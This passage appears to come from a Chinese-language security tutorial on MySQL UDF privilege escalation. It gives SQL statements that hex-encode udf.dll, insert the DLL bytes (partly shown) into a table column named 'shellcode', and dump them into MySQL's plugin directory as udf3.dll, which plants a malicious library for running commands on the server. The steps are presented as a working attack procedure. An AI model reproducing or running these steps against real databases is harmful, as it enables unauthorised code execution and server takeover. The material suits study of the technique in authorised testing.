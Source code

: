 - 通过`HxD`等工具打开`udf.dll`文件，获取`十六进制内容`，或通过sql语句获得十六进制内容(在本地或服务器上均可)

- ```sql
  #前一地址为udf.dll文件所在地址，后一路径为要输出的十六进制内容的文件，获得十六进制内容的操作也可直接在本地进行
  select hex(load_file('C:/phpStudy/WWW/udf.dll')) into dumpfile 'C:/phpStudy/WWW/udf.txt';
  ```

  ![image-20241030160442173](./assets/image-20241030160442173.png)

- 往我们自定义的表中`插入十六进制数据内容`

```sql
insert into laffrex values(unhex('这里放入上一步获得的udf.dll的十六进制代码'));

#例如以下形式：
insert into laffrex values(unhex('4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000F80000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A24000000000000004D477BD0092615830926158309261583005E86830B261583005E808308261583005E968307261583005E91830B2615832EE06E8...'));
```

![image-20241030160512616](./assets/image-20241030160512616.png)

- 将十六进制内容写入udf3.dll文件中

```sql
select shellcode from laffrex into dumpfile 'c:/phpstudy/MYSQL/lib/plugin/udf3.dll';
```

![image-20241030160540727](./assets/image-20241030160540727.png)
